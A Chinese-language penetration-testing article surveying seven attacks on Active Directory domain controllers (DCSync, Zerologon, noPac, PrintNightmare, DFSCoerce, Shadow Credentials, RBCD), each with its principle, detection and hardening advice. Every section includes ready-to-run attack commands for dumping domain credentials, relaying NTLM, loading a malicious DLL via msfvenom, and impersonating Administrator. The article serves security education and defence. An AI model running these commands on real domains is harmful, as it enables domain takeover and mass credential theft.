

## 前言

域控制器（Domain Controller, DC）是 Active Directory 的核心，承载着域内所有的身份认证与资源授权。一旦域控制器被攻陷，整个域便彻底沦陷。本文系统梳理当前主流的域控制器攻击技术，覆盖从凭证窃取到权限提升的完整攻击链，并结合流程图、代码示例与防御建议，帮助渗透测试人员和安全从业者理解这些攻击的原理与防护方法。

## 攻击技术全景流程图



## 一、DCSync —— 模拟域控制器复制凭据

### 原理

Active Directory 支持多域控制器之间通过 **MS-DRSR（Directory Replication Service）** 协议同步数据。`GetNCChanges` 是该协议的核心操作，允许一个域控制器从另一个域控制器拉取目录分区更新。拥有 **DS-Replication-Get-Changes** 和 **DS-Replication-Get-Changes-All** 权限（默认由 Domain Admins、Enterprise Admins、Administrators 组持有）的用户可以伪装成域控制器，向真实的 DC 发起目录复制请求，从而获取包括 Kerberos 密钥（AES256、AES128）、NTLM Hash 在内的所有用户凭据。

### 攻击条件

- 拥有域复制权限（Replicating Directory Changes / Replicating Directory Changes All）
- 能够与域控制器的 DRSUAPI 端点通信（TCP 135 和动态高端口）

### 攻击实现

```powershell
# Mimikatz: 获取指定用户凭据
mimikatz # lsadump::dcsync /domain:corp.local /user:Administrator

# Mimikatz: 批量导出全量凭据到 CSV
mimikatz # lsadump::dcsync /domain:corp.local /all /csv

# Impacket: 针对 krbtgt 的远程 DCSync
impacket-secretsdump corp.local/backup_svc:'P@ssw0rd!'@dc01.corp.local -just-dc-user krbtgt

# Impacket: 导出所有凭据并写入文件（可用 hashcat 离线破解）
impacket-secretsdump corp.local/backup_svc:'P@ssw0rd!'@dc01.corp.local -outputfile dcsync_dump
```

### 检测与防御

- 监控事件 ID 4662（目录服务访问）：关注 `{1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}` 对应 DS-Replication-Get-Changes-All
- 限制拥有域复制权限的账户数量，定期审计
- 网络层检测异常的 DRSUAPI 流量，尤其是来自非域控制器的请求

---

## 二、Zerologon —— CVE-2020-1472 域控制器接管

### 原理

Netlogon 远程协议（MS-NRPC）用于域成员机器与域控制器之间的认证。其 ComputeNetlogonCredential 函数使用 AES-CFB8 加密算法，初始化向量固定全为零。由于 CFB8 模式的弱随机性缺陷，在特定输入下，约有 **1/256 的概率** 使 Netlogon 认证通过的凭证计算为零，导致攻击者可以不经任何凭据就通过 Netlogon 认证，进而将域控制器机器账户密码设置为空字符串。

### 影响版本

- Windows Server 2008 R2 - 2019（未安装 2020 年 8 月补丁）

### 攻击步骤

```bash
# Step 1: 检测目标是否存在漏洞
# 使用 Impacket 或专用 PoC
impacket-zerologon -dc-ip 10.0.0.10 dc01 10.0.0.10

# Step 2: 利用漏洞将 DC 机器账户密码置空
# 运行 PoC（约需 256 次尝试平均命中一次）
python3 cve-2020-1472-exploit.py dc01 10.0.0.10

# 输出:
# Performing authentication attempts...
# ==============================
# Attempt 1: failed
# Attempt 2: failed
# ...
# Attempt 23: succeeded!
# Zero Logon successful! DC machine account password reset to empty.

# Step 3: 使用空密码执行 DCSync 导出所有凭据
impacket-secretsdump -no-pass -just-dc corp.local/dc01\$@10.0.0.10

# 此时获取所有用户凭据，域控完全沦陷

# Step 4 (可选): 使用导出的 original 机器账户哈希恢复 DC 密码
# 避免造成持续性拒绝服务
impacket-secretsdump -hashes :<original_hash> corp.local/dc01\$@10.0.0.10 -just-dc
```

### 防御

- 安装 2020 年 8 月安全更新（KB4566782 / KB4571694）
- 启用 Netlogon 安全通道强化策略（FullSecureChannelProtection）
- 监控事件 ID 5827 / 5828 / 5829（Netlogon 安全通道异常）

---

## 三、sAMAccountName 冒充 —— CVE-2021-42278 / CVE-2021-42287

### 原理

这套组合漏洞利用了 Active Directory 在处理 **sAMAccountName** 和 **servicePrincipalName (SPN)** 时的两个独立缺陷：

- **CVE-2021-42278**：机器账户的 `sAMAccountName` 可以改为非 `$` 结尾的名称，导致它被当作普通用户账户处理，绕过了名称冲突检查
- **CVE-2021-42287**：在 Kerberos TGS 请求中，如果 KDC 找不到对应的账户，会自动在名称后追加 `$` 并重试，实现从普通账户到机器账户的自动降级查找

两者结合：攻击者先创建机器账户 → 将其 sAMAccountName 改为与域控机器账户同名（不带 `$`）→ 利用 PAC 缺失向域控请求 TGS → KDC 自动追加 `$` 查找到真实的域控制器机器账户 → 返回具有 DC 特权的 TGS。

### 攻击步骤（Impacket / noPac）

```bash
# Step 1: 创建新的机器账户 (需要 MachineAccountQuota)
impacket-addcomputer corp.local/lowuser:'Password123!' \
  -dc-ip 10.0.0.10 -computer-name EVIL -computer-pass 'EvilPass!'

# Step 2: 清除新建机器账户的 servicePrincipalName
# 通过 LDAP 操作移除 SPN，避免名称冲突
python3 noPac.py corp.local/lowuser:'Password123!' \
  -dc-ip 10.0.0.10 -use-ldap

# noPac 自动执行:
# [-] 正在修改 EVIL$ 的 sAMAccountName 为 dc01 (不含 $)
# [-] 请求 TGT for EVIL -> dc01
# [-] 获取了 DC 高权限 TGS
# [*] 成功导入管理员 PAC

# Step 3: 使用获取的高权限 TGT 执行 DCSync
impacket-secretsdump corp.local/'dc01':'TGS_ST_HASH'@10.0.0.10 -just-dc
```

### 检测与防御

- 安装 2021 年 11 月安全更新
- 审计 sAMAccountName 变更事件（LDAP 修改监控）
- 监控短期内机器账户创建 + 属性修改的异常行为

---

## 四、Print Spooler —— PrintNightmare

### 原理

Windows 打印后台处理程序（Print Spooler）服务是一个长期存在的攻击面。PrintNightmare（CVE-2021-34527）利用了 `RpcAddPrinterDriverEx` 远程调用，允许已认证用户在远程系统上安装任意打印机驱动，从而实现 **SYSTEM** 权限执行恶意 DLL。

核心问题在于：
- 即使是非管理员用户也能调用该远程 RPC 函数
- `Point and Print` 机制允许从远程服务器加载驱动而无需交互提示
- 驱动安装过程中 LoadLibrary 在 SYSTEM 上下文中执行

### 攻击实现

```bash
# 使用 msfvenom 生成恶意 DLL payload
msfvenom -p windows/x64/exec CMD="net group 'Domain Admins' eviluser$ /add /domain" \
  -f dll -o evil.dll

# 使用 Impacket 脚本在目标 DC 上安装恶意驱动
# 利用 RpcAddPrinterDriverEx 远程 RPC 调用实现 SYSTEM 权限代码执行
impacket-printnightmare -dll evil.dll 'corp.local/lowuser:Password123!@dc01.corp.local'

# 或直接使用 CVE-2021-1675 PoC
python3 CVE-2021-1675.py corp.local/lowuser:'Password123!'@10.0.0.10 \
  '\\10.0.0.1\share\evil.dll'
```

### 防御

- 禁用域控制器上的 Print Spooler 服务（若不需要打印功能）
- 通过 GPO：计算机配置 > 管理模板 > 打印机 > "允许打印后台处理程序接受客户端连接" → 禁用
- 限制 `Point and Print` 为仅来自受信任服务器的驱动包

---

## 五、DFSCoerce —— 分布式文件系统强制认证

### 原理

DFSCoerce 利用 MS-DFSNM（Distributed File System Namespace Management）协议中的 `NetrDfsAddStdRoot` 和 `NetrDfsRemoveStdRoot` 方法，诱使域控制器向攻击者控制的 IP 发起 **NTLM 认证**。攻击者将捕获到的 NTLM 认证中继到 LDAP(S) 服务，从而创建/修改对域控制器的委派权限（RBCD），或直接中继到域控上的其他高价值服务。

DFSCoerce 与 PetitPotam、PrinterBug 类似，均为 **强制认证** 类的攻击。优势在于 DFSNM 协议常被安全产品忽略。

### 攻击流程

```bash
# 环境: DC = dc01.corp.local (10.0.0.10), 攻击机 = 10.0.0.100

# 1. 启动 NTLM 中继服务器，将认证中继到 LDAPS 并写入 RBCD 委派
impacket-ntlmrelayx -t ldaps://dc01.corp.local \
  --delegate-access --escalate-user EVIL\$

# 2. 触发 DFSCoerce，使 DC 向攻击机发起 NTLM 认证
python3 dfscoerce.py -u 'lowuser' -p 'Password123!' \
  -d corp.local -dc-ip 10.0.0.10 10.0.0.100 dc01.corp.local

# 3. 利用写入的 RBCD 权限获取 CIFS 服务的 TGS
impacket-getST -spn cifs/dc01.corp.local -impersonate Administrator \
  'corp.local/EVIL$:EvilPass!' -dc-ip 10.0.0.10

# 4. 使用 TGS 执行 DCSync 导出全部凭据
export KRB5CCNAME=Administrator@cifs_dc01.corp.local@CORP.LOCAL.ccache
impacket-secretsdump -k -just-dc -no-pass dc01.corp.local
```

### 检测建议

- 监控 `NetrDfsAddStdRoot` 和 `NetrDfsRemoveStdRoot` 的远程调用（事件 ID 5145）
- 审计域控制器上的委派权限变更（`msDS-AllowedToActOnBehalfOfOtherIdentity` 属性修改）
- 网络层面检测来自 DC 的异常 SMB/LDAP 出站连接

---

## 六、Shadow Credentials —— 影子凭据攻击

### 原理

Shadow Credentials 攻击利用了 Active Directory 中的 **Key Credential**（密钥凭据）机制。`msDS-KeyCredentialLink` 属性用于存储公钥映射，支持基于密钥的认证（如 Windows Hello for Business）。攻击者若能写入目标对象的 `msDS-KeyCredentialLink` 属性（需要 GenericWrite、WriteProperty 或类似权限），便可以添加一个私钥绑定的 Key Credential，随后通过 PKINIT（Kerberos 的公钥扩展）使用自己的私钥请求目标用户的 TGT。

这种攻击高度隐蔽，因为修改的是 Key Credential 属性而非传统密码，常常被安全审计忽略。

### 攻击步骤

```bash
# Step 1: 使用 Certipy 添加 Shadow Credential（需目标对象写入权限）
certipy shadow auto -u 'lowuser@corp.local' -p 'Password123!' \
  -dc-ip 10.0.0.10 -account 'dc01$'
# 输出: Key Credential 已写入 msDS-KeyCredentialLink，私钥保存为 dc01.pfx

# Step 2: 通过 PKINIT 使用私钥请求目标 TGT
certipy cert -pfx dc01.pfx -dc-ip 10.0.0.10 -export

# 或使用 Rubeus
Rubeus.exe asktgt /user:dc01\$ /certificate:<base64-cert> \
  /password:<pfx-password> /domain:corp.local /dc:dc01.corp.local

# Step 3: 使用 TGT 执行 DCSync
export KRB5CCNAME=dc01\$.ccache
impacket-secretsdump -k -no-pass dc01.corp.local
```

### 防御

- 监控 `msDS-KeyCredentialLink` 属性的非预期修改
- 在 AD 中审计对象 ACL 变更，尤其是针对敏感账户的 GenericWrite 权限分配
- 启用 Advanced Threat Analytics 或 Microsoft Defender for Identity

---

## 七、RBCD —— 基于资源的约束委派攻击

### 原理

基于资源的约束委派（RBCD, Resource-Based Constrained Delegation）通过 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性控制哪些安全主体允许向目标服务执行委派认证。与传统的约束委派（需要 SeEnableDelegationPrivilege）不同，RBCD 由资源的 **所有者** 自行设定，普通用户只要能修改目标机器的该属性，即可将自己的机器账户添加为中继主体。

攻击者创建一个受控的机器账户 → 将该机器账户添加到目标 DC 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` → 使用 S4U2Self / S4U2Proxy 协议请求以任意用户（如 Administrator）身份访问目标的 ST → 获取 DC 上 CIFS 等服务的管理员级访问。

### 完整攻击链

```bash
# 前提: MachineAccountQuota + 对 DC 的 GenericWrite/WriteProperty
# (也可通过 NTLM 中继使 DC 将权限赋予攻击者控制的机器账户)

# 1. 创建攻击者控制的机器账户
impacket-addcomputer corp.local/lowuser:'Password123!' \
  -dc-ip 10.0.0.10 -computer-name ATTACKER -computer-pass 'AtkPass!'

# 2. 将 ATTACKER$ 写入 DC 的 msDS-AllowedToActOnBehalfOfOtherIdentity
impacket-rbcd -delegate-from 'ATTACKER$' -delegate-to 'dc01$' \
  -dc-ip 10.0.0.10 -action write 'corp.local/lowuser:Password123!'

# 3. 通过 S4U2Self/S4U2Proxy 获取以 Administrator 身份访问 CIFS 的 TGS
impacket-getST -spn cifs/dc01.corp.local -impersonate Administrator \
  -dc-ip 10.0.0.10 'corp.local/ATTACKER$:AtkPass!'

# 4. 使用 TGS 执行 DCSync（可选: 导出 krbtgt 哈希打造黄金票据持久化）
export KRB5CCNAME=Administrator@cifs_dc01.corp.local@CORP.LOCAL.ccache
impacket-secretsdump -k -no-pass dc01.corp.local -just-dc
```

### 防御

- 限制 MachineAccountQuota（默认值 10 应降为 0）
- 监控 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性修改
- 启用 LDAP 签名和通道绑定（Channel Binding），防止 NTLM 中继到 LDAP
- 域控制器应启用 "Domain controller: LDAP server signing requirements"

---

## 攻击技术对照总结表

| 攻击技术 | 所需权限 | 关键协议 / API | 攻击结果 | CVSS / CVE |
|---------|---------|---------------|---------|-----------|
| DCSync | DS-Replication-Get-Changes | MS-DRSR, DRSUAPI | 导出全部凭据 | 非漏洞（特性利用） |
| Zerologon | 网络可达 | MS-NRPC (Netlogon) | DC 机器账户密码置空 | CVE-2020-1472 (10.0) |
| sAMAccountName 冒充 | 可创建机器账户 | Kerberos, LDAP | 获取 DC 管理员 TGT | CVE-2021-42278 / 42287 |
| PrintNightmare | 域认证用户 | MS-RPRN (Print Spooler) | DC 上 SYSTEM 代码执行 | CVE-2021-34527 (8.8) |
| DFSCoerce | 域认证用户 | MS-DFSNM | 强制 DC NTLM 认证 | 无 CVE（协议正常行为） |
| Shadow Credentials | 目标对象写权限 | Kerberos PKINIT | 获取目标 TGT | 非漏洞（特性利用） |
| RBCD | 目标机器 msDS-AllowedTo... 写权限 | Kerberos S4U | 模拟管理员访问服务 | 非漏洞（特性利用） |

---

## 综合防御建议

1. **补丁管理**：确保域控制器及时安装微软每月安全更新，特别是 2020 年 8 月和 2021 年 11 月的关键补丁
2. **权限最小化**：审计并限制拥有域复制权限的账户；将 `MachineAccountQuota` 设置为 0
3. **协议加固**：启用 LDAP 签名、LDAPS 强制、SMB 签名，部署 EPA（扩展保护认证）与通道绑定
4. **凭证保护**：启用 Credential Guard、LSA 保护，将敏感账户加入 Protected Users 组
5. **监控与告警**：部署 SIEM 规则监控 AD 异常属性修改、DRSUAPI 非域控源请求、短期内机器账户创建与属性变更
6. **网络隔离**：限制访问 DRSUAPI、Netlogon、Print Spooler 等敏感 RPC 端点的源 IP，域控制器不暴露于非管理网段
7. **应急响应**：制定域控制器入侵应急响应预案，包含 DC 离线审查、krbtgt 密钥轮换、全域密码重置等流程

---

## 免责声明

本文所述技术仅供安全研究人员、渗透测试人员在合法授权范围内学习和研究。**严禁将文中技术用于未授权的系统入侵或任何违法犯罪活动。** 作者不对因滥用文中技术导致的任何法律后果承担责任。任何个人或组织在参考本文内容进行安全测试时，必须确保已获得目标系统所有者的明确书面授权。

---

*参考资料：Microsoft MSRC, MITRE ATT&CK, Impacket Project, BloodHound, SpecterOps Research*
